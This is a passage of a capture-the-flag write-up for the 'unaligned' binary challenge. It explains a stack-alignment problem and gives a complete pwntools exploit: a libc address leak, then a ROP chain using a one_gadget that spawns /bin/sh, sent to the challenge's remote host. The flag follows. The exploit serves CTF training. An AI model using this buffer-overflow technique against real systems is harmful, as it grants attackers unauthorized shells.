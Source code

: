 but this will fail due to stack alignment, since the stack is no longer 16-bytes aligned.

the usual way we'd go about this is to prepend the ROP chain with a `ret` gadget, but since we don't have enough space for that we'll have to find another way.

### libc gadgets

using [`one_gadget`](https://github.com/david942j/one_gadget) on the provided `glibc`, we can find the following gadget:

```bash
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
```

the only requirement here is that `rcx == NULL` (since the first constraints is already satisfied), so we can just set `rcx` to `NULL` and jump to the gadget, and this will fit within our 24 bytes overflow

### final exploit

```python
from pwn import *

context.binary = elf = ELF("./unaligned")
libc = ELF("./libc.so.6")
# p = elf.process()
p = remote("unaligned.bsides.shellmates.club", 443, ssl=True)
assert p

system = int(p.recvline().strip().decode().split(' ')[1], 16)
log.info(f"system@{hex(system)}")

libc.address = system - libc.symbols['system']
log.info(f"libc@{hex(libc.address)}")

r = ROP(libc)
POP_RCX = r.find_gadget(["pop rcx", "ret"]).address
RET = r.find_gadget(["ret"]).address


payload = b'A'*40
payload += p64(POP_RCX) + p64(0) + p64(libc.address + 0x4f2a5)

p.sendlineafter(b'Name:', payload)

p.interactive()
```

### flag

```
shellmates{SOrRY_fOR_f0RciBLy_Un$4tify1ng_0ne_g4DGet_CoN$tr41nT$}
```

